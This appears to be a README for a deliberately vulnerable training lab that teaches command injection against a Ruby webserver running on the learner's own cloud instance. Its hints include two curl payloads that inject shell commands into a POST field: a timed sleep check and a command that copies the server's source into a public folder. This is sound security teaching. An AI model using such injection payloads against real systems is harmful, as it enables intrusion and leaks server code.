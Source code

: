# 🔥 Vulnerable Labs: Where's Wally - Injection Style
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

This exercise will test your ability to spot and exploit **Command Injection vulnerabilities**, one of the most dangerous OWASP Top 10 risks.

### 🎯 Your Mission

1. Look at [webserver.rb](../web/webserver.rb)
2. Can you find the command injection vulnerability? 
3. Are you able to explain why it's vulnerable?
4. How could you validate that it was an exploitable?

### 💥 Hints & Tips

Try running the following commands, what is the result?

Note: Don't forget to substitute "website_ip" for the Public IP address of your WebServer EC2 instance. 

```bash
curl -X POST http://website_ip/score -d '""; bash -c "sleep 5" #'
```

```bash
curl -X POST http://website_ip/score -d '""; bash -c "cat webserver.rb > public/test.txt" #'
```
Note: All files in the public/ folder are accessible from the website_ip/ root. 